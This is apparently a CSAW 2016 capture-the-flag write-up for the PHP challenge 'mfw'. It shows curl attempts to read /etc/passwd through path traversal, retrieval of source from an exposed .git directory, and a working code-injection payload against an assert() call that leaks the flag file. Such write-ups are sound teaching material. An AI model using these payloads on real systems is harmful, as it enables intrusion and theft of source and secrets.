### Solved by Swappage

mfw was a php + bootstrap simple web application, as always, the objective is to obtain the flag.

The site suggested that the index page was prone to local file inclusion, but the problem was that i didn't know enaugh about the way inclusion was implemented, and it was obvious some sanitization was in place

    # curl -v http://web.chal.csaw.io:8000/index.php?page=../../../../etc/passwd
    *   Trying 216.165.2.38...
    * Connected to web.chal.csaw.io (216.165.2.38) port 8000 (#0)
    > GET /index.php?page=../../../../etc/passwd HTTP/1.1
    > Host: web.chal.csaw.io:8000
    > User-Agent: curl/7.50.1
    > Accept: */*
    >
    < HTTP/1.1 200 OK
    < Server: nginx/1.10.0 (Ubuntu)
    < Date: Mon, 19 Sep 2016 21:43:46 GMT
    < Content-Type: text/html; charset=UTF-8
    < Content-Length: 25
    < Connection: keep-alive
    <
    * Connection #0 to host web.chal.csaw.io left intact
    Detected hacking attempt!

what appeared also to be interesting was the fact that, if i tried adding a single quote ' in the page name variable, the server was returning an error 500. This suggests that there is definitely something more that i needed to investigate, but doing it black box was a pain.

    # curl -v http://web.chal.csaw.io:8000/index.php?page=../../../../etc/passwd\'
    *   Trying 216.165.2.38...
    * Connected to web.chal.csaw.io (216.165.2.38) port 8000 (#0)
    > GET /index.php?page=../../../../etc/passwd' HTTP/1.1
    > Host: web.chal.csaw.io:8000
    > User-Agent: curl/7.50.1
    > Accept: */*
    >
    < HTTP/1.1 500 Internal Server Error
    < Server: nginx/1.10.0 (Ubuntu)
    < Date: Mon, 19 Sep 2016 21:45:49 GMT
    < Content-Type: text/html; charset=UTF-8
    < Content-Length: 0
    < Connection: keep-alive
    <
    * Connection #0 to host web.chal.csaw.io left intact

In the about page, an hint suggested that the author used git

i tried visiting http://web.chal.csaw.io:8000/.git and as a result i noticed that the repository was there :)

    # curl -v http://web.chal.csaw.io:8000/.git/HEAD
    *   Trying 216.165.2.38...
    * Connected to web.chal.csaw.io (216.165.2.38) port 8000 (#0)
    > GET /.git/HEAD HTTP/1.1
    > Host: web.chal.csaw.io:8000
    > User-Agent: curl/7.50.1
    > Accept: */*
    >
    < HTTP/1.1 200 OK
    < Server: nginx/1.10.0 (Ubuntu)
    < Date: Mon, 19 Sep 2016 21:36:12 GMT
    < Content-Length: 23
    < Connection: keep-alive
    < Last-Modified: Sun, 18 Sep 2016 11:15:11 GMT
    < ETag: "17-53cc64f0d0dc0"
    < Accept-Ranges: bytes
    <
    ref: refs/heads/master
    * Connection #0 to host web.chal.csaw.io left intact


With the help of a simple script i cloned the repository from the .git/HEAD and in the repository i was able to analyze the source code.

The site was made of a couple of pages, with the help of the git repository I could find where all the files were located and inspect some functions.

    ./templates/flag.php
    ./templates/about.php
    ./templates/contact.php
    ./templates/home.php
    ./index.php

unfortunately it wasn't that easy because the flag.php file wasn't complete in the repo ^^ but it was worth a try.

```php
php
<?php
// TODO
//$FLAG = '';
?>
```

Ok, it was time to use the source! and see if i could include the flag page or exfiltrate it in any way.

the index.php looked like this

```php
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>

... html code follows
```

The file inclusion here is pretty obvious, but there is no real way to exploit it in a serious way, the fact that templates directory is hardcoded in the path, prevents us from using any trick like php filters to encode the page, and simply including them won't provide us with any result, as the flag itself is in the page comment.

But if we look at the way the script attempts to sanitize against path traversal we can see something interesting. assert() is being used, and user input is directly added to the expression.

This explains why, in the first place, adding a single quote to the page name would result in an error 500: because that would break the script syntax.

We have a code injection here: let's try to do something nasty

what happens if we change the $file name into something like:

    a', '..') === highlight_file('templates/flag.php'); echo 1; ?>

what happens is that the expression becomes

    assert("strpos('a', '..') === highlight_file('templates/flag.php'); echo 1; ?>

that is definitely a valid php expression and gets executed.
Since the second operand for the assertion is a function, it's evaluated before the assertion, and the result is we get code execution. We can execute every php function or piece of code, i just thought the highligt_file() function was the quickest way to get the source of the flag.php page

```php
<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
```
